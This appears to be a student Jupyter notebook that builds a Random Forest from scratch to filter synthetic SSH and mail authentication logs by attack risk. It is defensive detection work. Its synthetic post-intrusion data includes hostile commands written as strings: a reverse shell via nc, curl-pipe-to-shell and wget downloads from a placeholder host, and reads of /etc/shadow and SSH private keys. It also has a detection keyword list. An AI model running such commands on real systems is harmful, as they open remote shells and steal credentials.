# RF-LogFilter — filtragem de logs de segurança com Random Forest (implementado do zero)

**Disciplina:** Aprendizagem de Máquina — Fatec Mauá  
**Professor:** Bruno Zolotareff dos Santos  
**Grupo:** Anderson Mendes Leandro, Ismael Alves de Almeida, Rafael Massayoshi Targa Eda

**Artigo base:** Kurniawan et al., *AgCyRAG: an Agentic Knowledge Graph based RAG Framework for Automated Security Analysis* (RAGE-KG 2025).

## Ideia
No AgCyRAG, os logs brutos são transformados em grafo por um LLM (Neo4j LLM Graph Builder). Isso é caro e todo log entra na base, inclusive ruído (CRON, sessões rotineiras).
Nossa proposta é colocar um **classificador Random Forest antes da ingestão**: cada linha de log recebe um *score de risco* (0 a 1) e só as linhas mais parecidas com um incidente real seguem para a base de conhecimento.

```
logs brutos -> parser -> features -> Random Forest -> score de risco -> [filtro] -> grafo de logs (AgCyRAG)
```

## Regras seguidas
- O algoritmo (árvore CART + Random Forest) é **escrito à mão**. Não há scikit-learn nem outra biblioteca de ML.
- Usamos apenas `numpy` (operações com vetores) e `matplotlib` (gráficos), que já vêm no Colab.
- O scikit-learn aparece **somente no apêndice final**, como gabarito para conferir se a nossa implementação se comporta como a de referência. Nada do pipeline depende dele.

Basta executar as células em ordem (Ambiente de execução > Executar tudo).

In [1]:
import random, re, json, math, bisect
from datetime import datetime, timedelta
from collections import defaultdict, Counter

import numpy as np
import matplotlib.pyplot as plt

SEMENTE = 42
AZUL, LARANJA, CINZA = "#2a78d6", "#eb6834", "#52514e"
plt.rcParams.update({"axes.spines.top": False, "axes.spines.right": False,
                     "axes.grid": True, "grid.color": "#e6e5e1", "axes.axisbelow": True,
                     "figure.dpi": 110})

## 1. Massa de dados

O artigo usa o **AIT Log Data Set v2** (logs sintéticos de um testbed, com rótulos de ataque). Ele tem cerca de 130 GB compactados, inviável para um MVP no Colab.
Por isso este notebook **gera uma massa sintética no mesmo formato** (`auth.log` do servidor `mail-0`, como no caso de uso do usuário *Daryl* do artigo) e grava os rótulos em um arquivo separado, linha a linha, como o AIT faz. Assim, trocar pela base real depois exige só mudar a célula de leitura.

O gerador simula 6 dias de uma pequena empresa:

| Comportamento | Rótulo |
|---|---|
| CRON, logins normais, e-mail (dovecot), sudo de administradores | normal |
| Usuário que erra a senha 1 ou 2 vezes e depois acerta | normal |
| Conta de serviço `backup` com senha vencida (rajadas de falha) | normal (caso difícil) |
| Usuários em home office, vindos de IP externo | normal (caso difícil) |
| Força bruta SSH, varredura de usuários inválidos | ataque |
| *Credential stuffing* (um IP, muitos usuários) | ataque |
| *Password spraying* lento (uma tentativa a cada vários minutos) | ataque (caso difícil) |
| Força bruta distribuída (muitos IPs, um usuário) | ataque |
| Força bruta vinda de máquina interna comprometida | ataque (caso difícil) |
| Ações após invasão (sessão, `sudo cat /etc/shadow`, etc.) | ataque |

**Limitação importante:** como nós mesmos geramos os dados, o modelo em parte "reaprende" as regras do gerador. Os casos difíceis acima existem para o resultado não ser trivial, mas a validação de verdade precisa da base AIT (ver seção 7).

In [2]:
rnd = random.Random(SEMENTE)
HOST = "mail-0"
INICIO = datetime(2024, 2, 25)           # domingo; 29/02 é o dia do caso "Daryl" do artigo
N_DIAS = 6

USUARIOS = ["daryl", "alice", "bruno", "carla", "diego", "elena", "fabio", "gabi", "hugo", "irene",
            "joao", "karen", "lucas", "marta", "nuno", "olivia", "paulo", "quenia", "rui", "sara",
            "tiago", "ursula", "vitor", "wanda", "yuri"]
ADMINS = ["alice", "bruno", "carla", "diego"]
IP_INTERNO = {u: f"10.0.0.{10 + i}" for i, u in enumerate(USUARIOS)}
# quem trabalha de casa usa também um IP externo fixo
IP_CASA = {u: f"198.51.100.{20 + i}" for i, u in enumerate(USUARIOS) if i % 4 == 0}
INVALIDOS = ["admin", "test", "oracle", "postgres", "ubuntu", "guest", "ftpuser", "pi", "git", "deploy",
             "support", "nagios", "jenkins", "tomcat", "user"]
CMD_NORMAL = ["/usr/bin/apt update", "/usr/bin/systemctl restart postfix", "/usr/bin/tail -n 50 /var/log/mail.log",
              "/usr/bin/systemctl status dovecot", "/usr/bin/df -h", "/usr/bin/journalctl -u ssh",
              "/usr/sbin/useradd estagiario", "/usr/bin/curl -s https://repo.empresa.local/pacote.deb"]
CMD_ATAQUE = ["/usr/bin/cat /etc/shadow", "/usr/bin/wget http://203.0.113.200/x.sh", "/usr/sbin/useradd -o -u 0 sysupd",
              "/usr/bin/chmod 777 /tmp/x.sh", "/usr/bin/nc -e /bin/sh 203.0.113.200 4444", "/usr/bin/crontab -e",
              "/usr/bin/cat /root/.ssh/id_rsa", "/usr/bin/curl -s http://203.0.113.200/p | sh"]

eventos = []   # (timestamp, linha sem data, rotulo, tipo)

def add(ts, proc, msg, rotulo=0, tipo="normal"):
    eventos.append((ts, f"{HOST} {proc}: {msg}", rotulo, tipo))

def pid():
    return rnd.randint(1000, 32000)

def ssh_falha(ts, user, ip, rot=0, tipo="normal", invalido=False):
    alvo = f"invalid user {user}" if invalido else user
    add(ts, f"sshd[{pid()}]", f"Failed password for {alvo} from {ip} port {rnd.randint(30000, 65000)} ssh2", rot, tipo)

def ssh_ok(ts, user, ip, rot=0, tipo="normal"):
    p = pid()
    add(ts, f"sshd[{p}]", f"Accepted password for {user} from {ip} port {rnd.randint(30000, 65000)} ssh2", rot, tipo)
    add(ts + timedelta(seconds=1), f"sshd[{p}]", f"pam_unix(sshd:session): session opened for user {user} by (uid=0)", rot, tipo)
    return p

def ssh_fim(ts, user, p, rot=0, tipo="normal"):
    add(ts, f"sshd[{p}]", f"pam_unix(sshd:session): session closed for user {user}", rot, tipo)

def mail_falha(ts, user, ip, rot=0, tipo="normal"):
    add(ts, "auth", f"pam_unix(dovecot:auth): authentication failure; logname= uid=0 euid=0 tty=dovecot ruser={user} rhost={ip} user={user}", rot, tipo)

def mail_ok(ts, user, ip, rot=0, tipo="normal"):
    add(ts, "dovecot", f"imap-login: Login: user=<{user}>, method=PLAIN, rip={ip}, lip=10.0.0.5, mpid={pid()}, TLS", rot, tipo)

def sudo(ts, user, cmd, rot=0, tipo="normal"):
    add(ts, "sudo", f"  {user} : TTY=pts/{rnd.randint(0, 4)} ; PWD=/home/{user} ; USER=root ; COMMAND={cmd}", rot, tipo)

def pos_invasao(ts, user, ip, tipo):
    """Atacante que conseguiu entrar: abre sessão e roda comandos sensíveis."""
    p = ssh_ok(ts, user, ip, 1, tipo)
    t = ts + timedelta(seconds=rnd.randint(20, 90))
    for cmd in rnd.sample(CMD_ATAQUE, rnd.randint(3, 5)):
        sudo(t, user, cmd, 1, tipo)
        t += timedelta(seconds=rnd.randint(15, 120))
    if rnd.random() < 0.5:
        add(t, f"su[{pid()}]", f"(to root) {user} on pts/1", 1, tipo)
    ssh_fim(t + timedelta(seconds=rnd.randint(30, 300)), user, p, 1, tipo)

# ---------- comportamento normal ----------
for d in range(N_DIAS):
    dia = INICIO + timedelta(days=d)
    fim_de_semana = dia.weekday() >= 5
    # CRON a cada 2 minutos
    for m in range(0, 24 * 60, 2):
        t = dia + timedelta(minutes=m, seconds=1)
        p = pid()
        add(t, f"CRON[{p}]", "pam_unix(cron:session): session opened for user root by (uid=0)")
        add(t + timedelta(seconds=rnd.randint(0, 2)), f"CRON[{p}]", "pam_unix(cron:session): session closed for user root")
    for u in USUARIOS:
        if fim_de_semana and rnd.random() < 0.7:
            continue
        coruja = rnd.random() < 0.08                       # trabalha fora do horário de vez em quando
        def hora():
            h = rnd.uniform(20, 23.9) if coruja and rnd.random() < 0.5 else min(max(rnd.gauss(13, 3), 6.5), 21.5)
            return dia + timedelta(hours=h)
        def origem():
            return IP_CASA[u] if u in IP_CASA and rnd.random() < 0.4 else IP_INTERNO[u]
        # leitura de e-mail
        for _ in range(rnd.randint(15, 40)):
            t, ip = hora(), origem()
            if rnd.random() < 0.06:                        # errou a senha
                for _ in range(rnd.randint(1, 2)):
                    mail_falha(t, u, ip); t += timedelta(seconds=rnd.randint(4, 20))
            mail_ok(t, u, ip)
        # sessões SSH
        for _ in range(rnd.randint(0, 3) if u not in ADMINS else rnd.randint(2, 6)):
            t, ip = hora(), origem()
            if rnd.random() < 0.12:
                for _ in range(rnd.randint(1, 3)):
                    ssh_falha(t, u, ip); t += timedelta(seconds=rnd.randint(4, 15))
            p = ssh_ok(t, u, ip)
            t2 = t + timedelta(seconds=30)
            if u in ADMINS:
                for _ in range(rnd.randint(0, 4)):
                    sudo(t2, u, rnd.choice(CMD_NORMAL)); t2 += timedelta(seconds=rnd.randint(20, 600))
            ssh_fim(t2 + timedelta(seconds=rnd.randint(60, 3600)), u, p)
    # conta de serviço com senha vencida: rajadas de falha, mas é benigno
    if d in (1, 2, 4, 5):
        for _ in range(rnd.randint(3, 6)):
            t = dia + timedelta(hours=rnd.uniform(0, 23.5))
            for _ in range(rnd.randint(5, 12)):
                ssh_falha(t, "backup", "10.0.0.50"); t += timedelta(seconds=rnd.randint(2, 10))

# ---------- ataques ----------
def ip_ext():
    return f"203.0.113.{rnd.randint(1, 199)}" if rnd.random() < 0.5 else f"192.0.2.{rnd.randint(1, 250)}"

def forca_bruta(t, ip=None, alvo=None, tipo="forca_bruta"):
    ip, alvo = ip or ip_ext(), alvo or rnd.choice(["root"] + USUARIOS)
    for _ in range(rnd.randint(40, 150)):
        ssh_falha(t, alvo, ip, 1, tipo); t += timedelta(seconds=rnd.uniform(1, 3))
    if rnd.random() < 0.35 and alvo != "root":
        pos_invasao(t, alvo, ip, tipo)

def varredura(t):
    ip = ip_ext()
    for _ in range(rnd.randint(20, 60)):
        ssh_falha(t, rnd.choice(INVALIDOS), ip, 1, "varredura", invalido=True); t += timedelta(seconds=rnd.uniform(1, 5))

def stuffing(t):
    ip = ip_ext(); sucesso = None
    for u in rnd.sample(USUARIOS, rnd.randint(15, 22)):
        for _ in range(rnd.randint(1, 2)):
            mail_falha(t, u, ip, 1, "credential_stuffing"); t += timedelta(seconds=rnd.uniform(2, 8))
        if sucesso is None and rnd.random() < 0.06:
            mail_ok(t, u, ip, 1, "credential_stuffing"); sucesso = u
    if sucesso:
        pos_invasao(t + timedelta(seconds=60), sucesso, ip, "credential_stuffing")

def spraying(t):
    ip = ip_ext()
    for u in rnd.sample(USUARIOS, rnd.randint(12, 20)):
        ssh_falha(t, u, ip, 1, "spraying_lento"); t += timedelta(minutes=rnd.uniform(3, 10))

def distribuido(t):
    alvo = rnd.choice(USUARIOS)
    for _ in range(rnd.randint(40, 80)):
        mail_falha(t, alvo, ip_ext(), 1, "distribuido"); t += timedelta(seconds=rnd.uniform(2, 12))

def interno(t):
    forca_bruta(t, ip="10.0.0.77", alvo=rnd.choice(ADMINS), tipo="interno")

for d in range(N_DIAS):
    dia = INICIO + timedelta(days=d)
    h = lambda: dia + timedelta(hours=rnd.uniform(0, 23))
    for _ in range(rnd.randint(1, 2)): forca_bruta(h())
    for _ in range(rnd.randint(1, 2)): varredura(h())
    stuffing(h())
    if d % 2 == 0: spraying(dia + timedelta(hours=rnd.uniform(0, 20)))
    if d % 2 == 1: distribuido(h())
    if d in (2, 5): interno(h())

# caso de uso do artigo: falhas repetidas de "daryl" em 29/02 às 15:38:42, seguidas de login bem-sucedido
t = datetime(2024, 2, 29, 15, 38, 42); ip_d = "203.0.113.222"
for _ in range(9):
    mail_falha(t, "daryl", ip_d, 1, "caso_daryl"); t += timedelta(seconds=rnd.randint(3, 9))
mail_ok(t, "daryl", ip_d, 1, "caso_daryl")
pos_invasao(t + timedelta(seconds=40), "daryl", ip_d, "caso_daryl")

# ---------- grava arquivos no formato "log bruto + arquivo de rótulos" ----------
eventos.sort(key=lambda e: e[0])
with open("auth.log", "w") as f_log, open("auth.log.labels", "w") as f_rot:
    for n, (ts, linha, rot, tipo) in enumerate(eventos, start=1):
        f_log.write(f"{ts.strftime('%b %d %H:%M:%S')} {linha}\n")
        if rot:                                            # como no AIT: só linhas de ataque têm rótulo
            f_rot.write(json.dumps({"line": n, "labels": ["attacker", tipo]}) + "\n")

print(f"{len(eventos)} linhas gravadas em auth.log | {sum(e[2] for e in eventos)} linhas de ataque em auth.log.labels")
print("\nExemplos de linhas:")
for i in rnd.sample(range(len(eventos)), 6):
    print(" ", eventos[i][0].strftime('%b %d %H:%M:%S'), eventos[i][1][:130])

15419 linhas gravadas em auth.log | 1837 linhas de ataque em auth.log.labels

Exemplos de linhas:
  Feb 27 00:38:15 mail-0 sshd[31916]: Failed password for diego from 10.0.0.77 port 41620 ssh2
  Feb 28 15:32:48 mail-0 auth: pam_unix(dovecot:auth): authentication failure; logname= uid=0 euid=0 tty=dovecot ruser=paulo rhost=10.0.0.26 user=pa
  Feb 29 15:20:01 mail-0 CRON[3085]: pam_unix(cron:session): session closed for user root
  Mar 01 09:41:31 mail-0 auth: pam_unix(dovecot:auth): authentication failure; logname= uid=0 euid=0 tty=dovecot ruser=fabio rhost=203.0.113.116 use
  Feb 25 12:40:02 mail-0 CRON[8839]: pam_unix(cron:session): session closed for user root
  Feb 26 00:04:01 mail-0 CRON[21964]: pam_unix(cron:session): session opened for user root by (uid=0)


## 2. Leitura e parser
A partir daqui o notebook **só enxerga os dois arquivos** (`auth.log` e `auth.log.labels`), como faria com uma base real.
O parser extrai de cada linha: data/hora, processo, tipo de evento, usuário, IP e comando.

In [3]:
RE_LINHA = re.compile(r"^(\w{3}) +(\d+) (\d\d:\d\d:\d\d) (\S+) ([\w\-]+)(?:\[\d+\])?: (.*)$")
MESES = {m: i + 1 for i, m in enumerate("Jan Feb Mar Apr May Jun Jul Aug Sep Oct Nov Dec".split())}
RE_IP = re.compile(r"(?:from|rhost=|rip=)\s?(\d+\.\d+\.\d+\.\d+)")
PADROES_USUARIO = [re.compile(p) for p in (r"for (?:invalid user )?(\S+) from", r"\buser=<?([\w\-]+)>?",
                                           r"for user (\S+)", r"^\s*(\S+) : TTY=", r"\(to root\) (\S+)")]

def parse_linha(linha, ano=2024):
    m = RE_LINHA.match(linha)
    if not m:
        return None
    mes, dia, hora, host, proc, msg = m.groups()
    ts = datetime.strptime(f"{ano}-{MESES[mes]}-{dia} {hora}", "%Y-%m-%d %H:%M:%S")
    if "Failed password" in msg or "authentication failure" in msg: ev = "FALHA"
    elif "Accepted password" in msg or "imap-login: Login" in msg:  ev = "SUCESSO"
    elif "session opened" in msg or "session closed" in msg:        ev = "SESSAO"
    elif "COMMAND=" in msg or "(to root)" in msg:                   ev = "SUDO"
    else:                                                           ev = "OUTRO"
    ip = RE_IP.search(msg)
    user = next((r.search(msg).group(1) for r in PADROES_USUARIO if r.search(msg)), None)
    cmd = msg.split("COMMAND=")[1] if "COMMAND=" in msg else ""
    return {"ts": ts, "proc": proc, "ev": ev, "user": user, "ip": ip.group(1) if ip else None,
            "invalido": "invalid user" in msg, "cmd": cmd, "bruto": linha.rstrip("\n")}

with open("auth.log") as f:
    registros = [parse_linha(l) for l in f]
assert all(r is not None for r in registros), "há linhas que o parser não reconheceu"

y = np.zeros(len(registros), dtype=int)
tipo_ataque = ["normal"] * len(registros)
with open("auth.log.labels") as f:
    for l in f:
        o = json.loads(l)
        y[o["line"] - 1] = 1
        tipo_ataque[o["line"] - 1] = o["labels"][1]

print(f"Linhas: {len(registros)} | ataque: {y.sum()} ({y.mean():.1%}) | normal: {(y == 0).sum()}")
print("Eventos:", dict(Counter(r["ev"] for r in registros)))
print("Tipos de ataque:", dict(Counter(t for t in tipo_ataque if t != "normal")))

Linhas: 15419 | ataque: 1837 (11.9%) | normal: 13582
Eventos: {'SESSAO': 9152, 'SUCESSO': 3794, 'FALHA': 2305, 'SUDO': 168}
Tipos de ataque: {'forca_bruta': 831, 'varredura': 380, 'spraying_lento': 53, 'credential_stuffing': 209, 'distribuido': 183, 'interno': 164, 'caso_daryl': 17}


## 3. Features
Uma linha isolada diz pouco: *uma* falha de autenticação é normal, *cem* em um minuto não. Por isso cada linha ganha também **features de contexto**, calculadas só com o que aconteceu **antes** dela (como seria em produção, sem olhar o futuro).

In [4]:
NOMES = ["eh_falha", "usuario_invalido", "eh_sucesso", "eh_sessao", "eh_sudo", "eh_cron", "hora", "fora_do_horario",
         "tem_ip", "ip_externo", "alvo_root", "falhas_ip_1min", "falhas_ip_10min", "falhas_ip_60min",
         "usuarios_distintos_ip_60min", "falhas_usuario_10min", "falhas_usuario_60min", "ips_distintos_usuario_10min",
         "seg_desde_ultimo_evento_ip", "ip_ja_autenticou_usuario", "login_externo_usuario_30min", "comando_sensivel"]
SENSIVEIS = ("shadow", "wget", "nc -e", "chmod 777", "useradd", "id_rsa", "| sh", "crontab")

def extrair_features(regs):
    X = np.zeros((len(regs), len(NOMES)))
    falhas_ip, falhas_user = defaultdict(list), defaultdict(list)       # listas de segundos (ordenadas)
    falhas_ip_user, falhas_user_ip = defaultdict(list), defaultdict(list)
    ultimo_ip, ja_autenticou, login_ext = {}, set(), {}
    t0 = regs[0]["ts"]

    def conta(lista, t, janela):
        return len(lista) - bisect.bisect_left(lista, t - janela)

    def distintos(lista, t, janela):                                     # lista de (t, valor)
        vistos = set()
        for tt, v in reversed(lista):
            if tt < t - janela: break
            vistos.add(v)
        return len(vistos)

    for i, r in enumerate(regs):
        t = (r["ts"] - t0).total_seconds()
        ip, user, ev = r["ip"], r["user"], r["ev"]
        externo = bool(ip) and not ip.startswith(("10.", "127."))
        h = r["ts"].hour
        X[i, :11] = [ev == "FALHA", r["invalido"], ev == "SUCESSO", ev == "SESSAO", ev == "SUDO", r["proc"] == "CRON",
                     h, h < 7 or h >= 20, ip is not None, externo, user == "root" and r["proc"] != "CRON"]
        if ip:
            X[i, 11:15] = [conta(falhas_ip[ip], t, 60), conta(falhas_ip[ip], t, 600), conta(falhas_ip[ip], t, 3600),
                           distintos(falhas_ip_user[ip], t, 3600)]
            X[i, 18] = min(t - ultimo_ip.get(ip, -1e9), 3600)
            X[i, 19] = (ip, user) in ja_autenticou
        else:
            X[i, 18] = 3600
        if user and r["proc"] != "CRON":
            X[i, 15:18] = [conta(falhas_user[user], t, 600), conta(falhas_user[user], t, 3600),
                           distintos(falhas_user_ip[user], t, 600)]
            X[i, 20] = t - login_ext.get(user, -1e9) <= 1800
        X[i, 21] = any(s in r["cmd"] for s in SENSIVEIS)
        # atualiza o histórico só depois de calcular as features da linha
        if ev == "FALHA" and ip:
            falhas_ip[ip].append(t); falhas_ip_user[ip].append((t, user))
            falhas_user[user].append(t); falhas_user_ip[user].append((t, ip))
        if ev == "SUCESSO" and ip:
            ja_autenticou.add((ip, user))
            if externo: login_ext[user] = t
        if ip: ultimo_ip[ip] = t
    return X

X = extrair_features(registros)
print("Matriz de features:", X.shape)

Matriz de features: (15419, 22)


### Divisão treino/teste por tempo
Linhas do mesmo ataque são quase idênticas. Se sorteássemos as linhas ao acaso, o mesmo ataque cairia no treino e no teste e as métricas ficariam infladas. Por isso **treinamos nos 4 primeiros dias e testamos nos 2 últimos**: o modelo é avaliado em ataques (IPs, alvos, horários) que nunca viu.

In [5]:
corte = datetime(2024, 2, 29)
treino = np.array([r["ts"] < corte for r in registros])
teste = ~treino
X_tr, y_tr, X_te, y_te = X[treino], y[treino], X[teste], y[teste]
print(f"Treino (25 a 28/02): {len(y_tr)} linhas, {y_tr.mean():.1%} ataque")
print(f"Teste  (29/02 e 01/03): {len(y_te)} linhas, {y_te.mean():.1%} ataque")

Treino (25 a 28/02): 10036 linhas, 11.7% ataque
Teste  (29/02 e 01/03): 5383 linhas, 12.4% ataque


## 4. Random Forest do zero

**Árvore de decisão (CART):** em cada nó, testa cortes do tipo `feature <= limiar` e escolhe o que mais reduz a **impureza de Gini** `G = 1 - p0² - p1²`. Repete recursivamente até atingir a profundidade máxima ou o nó ficar puro. A folha guarda a proporção de ataques que chegou nela.

**Random Forest (Breiman, 2001):** treina várias árvores, cada uma com
1. uma amostra *bootstrap* das linhas (sorteio com reposição) — *bagging*;
2. apenas um subconjunto aleatório de features (√n) avaliado em cada nó.

A saída é a **média das probabilidades** das árvores, que usamos como *score de risco*. As linhas que ficaram fora do bootstrap de cada árvore (*out-of-bag*, OOB) servem como validação sem gastar o conjunto de teste.

In [6]:
class ArvoreDecisao:
    """Árvore de classificação binária CART com critério de Gini."""

    def __init__(self, profundidade_max=12, min_amostras_no=10, min_amostras_folha=3, n_features_no=None, rng=None):
        self.profundidade_max, self.min_no, self.min_folha = profundidade_max, min_amostras_no, min_amostras_folha
        self.n_features_no = n_features_no
        self.rng = rng or np.random.default_rng()

    def fit(self, X, y):
        self.n_total, self.n_feat = X.shape
        self.k = self.n_features_no or self.n_feat
        self.importancia = np.zeros(self.n_feat)
        self.feature, self.limiar, self.esq, self.dir, self.valor = [], [], [], [], []   # árvore em listas paralelas
        self._crescer(X, y, 0)
        return self

    def _novo_no(self, y):
        self.feature.append(-1); self.limiar.append(0.0); self.esq.append(-1); self.dir.append(-1)
        self.valor.append(y.mean())
        return len(self.valor) - 1

    def _melhor_corte(self, X, y):
        n, pos = len(y), y.sum()
        p = pos / n
        gini_pai = 1 - p * p - (1 - p) * (1 - p)
        melhor = (0.0, None, None)                                   # (ganho, feature, limiar)
        for f in self.rng.choice(self.n_feat, self.k, replace=False):
            ordem = np.argsort(X[:, f], kind="stable")
            xs, ys = X[ordem, f], y[ordem]
            n_esq = np.arange(1, n)                                  # corte entre as posições i-1 e i
            pos_esq = np.cumsum(ys)[:-1]
            n_dir, pos_dir = n - n_esq, pos - pos_esq
            pe, pd = pos_esq / n_esq, pos_dir / n_dir
            gini = (n_esq * (1 - pe**2 - (1 - pe)**2) + n_dir * (1 - pd**2 - (1 - pd)**2)) / n
            valido = (xs[1:] != xs[:-1]) & (n_esq >= self.min_folha) & (n_dir >= self.min_folha)
            if not valido.any():
                continue
            gini[~valido] = np.inf
            i = int(np.argmin(gini))
            ganho = gini_pai - gini[i]
            if ganho > melhor[0] + 1e-12:
                melhor = (ganho, f, (xs[i] + xs[i + 1]) / 2)
        return melhor

    def _crescer(self, X, y, prof):
        no = self._novo_no(y)
        if prof >= self.profundidade_max or len(y) < self.min_no or y.min() == y.max():
            return no
        ganho, f, lim = self._melhor_corte(X, y)
        if f is None:
            return no
        vai_esq = X[:, f] <= lim
        self.importancia[f] += len(y) / self.n_total * ganho         # redução de impureza ponderada
        self.feature[no], self.limiar[no] = f, lim
        self.esq[no] = self._crescer(X[vai_esq], y[vai_esq], prof + 1)
        self.dir[no] = self._crescer(X[~vai_esq], y[~vai_esq], prof + 1)
        return no

    def predict_proba(self, X):
        saida = np.zeros(len(X))
        pilha = [(0, np.arange(len(X)))]
        while pilha:
            no, idx = pilha.pop()
            if self.feature[no] == -1:
                saida[idx] = self.valor[no]
                continue
            vai_esq = X[idx, self.feature[no]] <= self.limiar[no]
            pilha.append((self.esq[no], idx[vai_esq])); pilha.append((self.dir[no], idx[~vai_esq]))
        return saida


class FlorestaAleatoria:
    """Random Forest: bagging de árvores CART com sorteio de features em cada nó."""

    def __init__(self, n_arvores=40, profundidade_max=12, min_amostras_no=10, min_amostras_folha=3, semente=0):
        self.n_arvores, self.semente = n_arvores, semente
        self.params = dict(profundidade_max=profundidade_max, min_amostras_no=min_amostras_no,
                           min_amostras_folha=min_amostras_folha)

    def fit(self, X, y):
        rng = np.random.default_rng(self.semente)
        n, n_feat = X.shape
        k = max(1, int(round(math.sqrt(n_feat))))
        self.arvores = []
        soma_oob, vezes_oob = np.zeros(n), np.zeros(n)
        for _ in range(self.n_arvores):
            idx = rng.integers(0, n, n)                              # bootstrap
            arv = ArvoreDecisao(n_features_no=k, rng=rng, **self.params).fit(X[idx], y[idx])
            self.arvores.append(arv)
            fora = np.ones(n, dtype=bool); fora[idx] = False         # linhas que essa árvore não viu
            soma_oob[fora] += arv.predict_proba(X[fora]); vezes_oob[fora] += 1
        self.oob_proba = np.where(vezes_oob > 0, soma_oob / np.maximum(vezes_oob, 1), np.nan)
        imp = np.mean([a.importancia for a in self.arvores], axis=0)
        self.importancia = imp / imp.sum()
        return self

    def predict_proba(self, X):
        return np.mean([a.predict_proba(X) for a in self.arvores], axis=0)

    def predict(self, X, limiar=0.5):
        return (self.predict_proba(X) >= limiar).astype(int)


def metricas(y_real, y_prev):
    """Matriz de confusão e métricas, calculadas à mão."""
    vp = int(((y_real == 1) & (y_prev == 1)).sum()); fp = int(((y_real == 0) & (y_prev == 1)).sum())
    fn = int(((y_real == 1) & (y_prev == 0)).sum()); vn = int(((y_real == 0) & (y_prev == 0)).sum())
    prec = vp / (vp + fp) if vp + fp else 0.0
    rec = vp / (vp + fn) if vp + fn else 0.0
    f1 = 2 * prec * rec / (prec + rec) if prec + rec else 0.0
    return {"VP": vp, "FP": fp, "FN": fn, "VN": vn, "acuracia": (vp + vn) / len(y_real),
            "precisao": prec, "recall": rec, "f1": f1, "reducao_volume": 1 - (vp + fp) / len(y_real)}

### Teste rápido do algoritmo
Antes de usar nos logs, conferimos a implementação em um problema que uma única reta não resolve (XOR). Se a floresta acertar, o mecanismo de cortes recursivos está funcionando.

In [7]:
_rng = np.random.default_rng(1)
Xx = _rng.uniform(-1, 1, (600, 2)); yx = ((Xx[:, 0] > 0) ^ (Xx[:, 1] > 0)).astype(int)
_f = FlorestaAleatoria(n_arvores=15, semente=1).fit(Xx[:400], yx[:400])
print(f"Acurácia no XOR (dados não vistos): {metricas(yx[400:], _f.predict(Xx[400:]))['acuracia']:.1%}")

Acurácia no XOR (dados não vistos): 99.0%


## 5. Treino e avaliação
A base é desbalanceada (poucos ataques), então **acurácia engana**: um modelo que diz "tudo normal" já acerta a maioria. As métricas que importam para um filtro são:
- **recall**: de todas as linhas de ataque, quantas o filtro deixou passar para a base (perder uma é o erro grave);
- **redução de volume**: quanto de log deixamos de mandar para o LLM/grafo (o ganho da proposta).

In [8]:
floresta = FlorestaAleatoria(n_arvores=40, profundidade_max=12, semente=SEMENTE).fit(X_tr, y_tr)
arvore_unica = ArvoreDecisao(rng=np.random.default_rng(SEMENTE)).fit(X_tr, y_tr)

score_te = floresta.predict_proba(X_te)
oob_ok = ~np.isnan(floresta.oob_proba)
print("Validação OOB (só com dados de treino):",
      {k: round(v, 3) for k, v in metricas(y_tr[oob_ok], (floresta.oob_proba[oob_ok] >= 0.5).astype(int)).items()
       if k in ("precisao", "recall", "f1")})

comparativo = {
    "Sem filtro (artigo original)": np.ones_like(y_te),
    "Regra fixa: manter toda falha de login": X_te[:, 0].astype(int),
    "Uma árvore de decisão": (arvore_unica.predict_proba(X_te) >= 0.5).astype(int),
    "Random Forest (limiar 0,5)": (score_te >= 0.5).astype(int),
}
print(f"\n{'Abordagem (avaliada no teste)':42s} {'precisão':>9s} {'recall':>8s} {'F1':>7s} {'redução de volume':>19s}")
for nome, prev in comparativo.items():
    m = metricas(y_te, prev)
    print(f"{nome:42s} {m['precisao']:9.1%} {m['recall']:8.1%} {m['f1']:7.1%} {m['reducao_volume']:19.1%}")

m = metricas(y_te, comparativo["Random Forest (limiar 0,5)"])
print(f"\nMatriz de confusão da Random Forest (teste):")
print(f"                      previsto ataque   previsto normal")
print(f"  real ataque         {m['VP']:15d}   {m['FN']:15d}")
print(f"  real normal         {m['FP']:15d}   {m['VN']:15d}")

Validação OOB (só com dados de treino): {'precisao': 0.993, 'recall': 0.99, 'f1': 0.991}

Abordagem (avaliada no teste)               precisão   recall      F1   redução de volume
Sem filtro (artigo original)                   12.4%   100.0%   22.0%                0.0%
Regra fixa: manter toda falha de login         73.8%    96.6%   83.6%               83.8%
Uma árvore de decisão                          98.6%    93.7%   96.1%               88.2%
Random Forest (limiar 0,5)                     98.5%    98.4%   98.4%               87.6%

Matriz de confusão da Random Forest (teste):
                      previsto ataque   previsto normal
  real ataque                     656                11
  real normal                      10              4706


In [9]:
# Recall por tipo de ataque: mostra onde o modelo é fraco
tipos_te = np.array(tipo_ataque)[teste]
print(f"{'Tipo de ataque':24s} {'linhas':>7s} {'recall':>8s}")
for tp in sorted(set(tipos_te) - {"normal"}):
    sel = tipos_te == tp
    print(f"{tp:24s} {sel.sum():7d} {(score_te[sel] >= 0.5).mean():8.1%}")

Tipo de ataque            linhas   recall
caso_daryl                    17    94.1%
credential_stuffing           62   100.0%
distribuido                   79   100.0%
forca_bruta                  341   100.0%
interno                       42    76.2%
spraying_lento                20   100.0%
varredura                    106   100.0%




In [10]:
ordem = np.argsort(floresta.importancia)[-12:]
fig, ax = plt.subplots(figsize=(7.5, 4.2))
ax.barh([NOMES[i] for i in ordem], floresta.importancia[ordem], color=AZUL, height=0.6)
for i, v in enumerate(floresta.importancia[ordem]):
    ax.text(v + 0.004, i, f"{v:.0%}", va="center", fontsize=8, color=CINZA)
ax.set_title("Quais features a floresta mais usa (redução média de impureza)", loc="left", fontsize=11)
ax.grid(axis="y", visible=False); ax.set_xlabel("importância relativa")
